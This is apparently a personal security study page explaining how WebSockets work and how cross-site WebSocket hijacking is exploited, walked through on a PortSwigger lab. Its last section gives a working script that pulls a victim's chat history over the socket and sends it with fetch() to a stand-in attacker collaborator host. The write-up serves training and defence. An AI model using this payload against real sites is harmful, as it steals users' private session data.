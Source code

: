# WebSockets

Websockets is a communication protocol that provide for a full-duplex (two-way) interactive communication session between the user's browser and a server. With this, we can send messages to a server and receive responses without having to poll the server for a reply.

This is commonly used in the 'chat' feature in websites, such as raising enquiries to a chatbot or customer service employee. They also allow for users to performactions and stuff. Virtually any web security vulnerability that arises with regular HTTP can also arise in relation to WebSockets communications.

## How it Works

This is how the connection is typically established:

<figure><img src="../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

A WebSocket handhsake request can be issued like this:

```http
GET /chat HTTP/1.1
Host: example.com
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: wDqumtseNBJdhkihL6PW7w==
Connection: keep-alive, Upgrade
Cookie: session=KOsEJNuflw4Rd9BDNrVmvwBF9rEijeE2
Upgrade: websocket
# Taken from HackTricks
```

Then the website would send a reply like this:

```http
HTTP/1.1 101 Switching Protocols
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Accept: 0FFP+2nmNIf/h+4BP36k9uzrYGk=
# Taken from HackTricks
```

When the protocols are switched, a channel is opened for bi-directional communications and would remain open until either side closes the channel and the connection terminates.&#x20;

The exploitation happens when we intercept and change the traffic that is being sent through the WebSocket, and this can be done using Burpsuite. For example, we can use this to exploit XSS, SQL Injection, or even Command Injection in some rare cases.

The most common attack however is **Cross-Site Websocket hijacking**, which involves exploitation of the cookie that is used to identify a user. Sometimes, these cookies could be tagged to each unique user, and stealing it allows for impersonation of another user and reading of sensitive information.

## Example

This is the lab we will be using for this example:

{% embed url="https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab" %}

In this lab, there is a chatbot that relates each user to his websocket session via a sent cookie. The chatbot then sends back the entire history of each session once the word 'READY' is sent to it via websockets.

We can manipulate this by sending a basic XSS script that would retrieve the information and send it to our own attack server, in this case BurpSuite Collaborator is used.

```markup
<script>
    var ws = new WebSocket('wss://your-websocket-url');
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://your-collaborator-url', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```

Then, our Burpsuite host would receive a callback that would contain all the data from another user's session.&#x20;
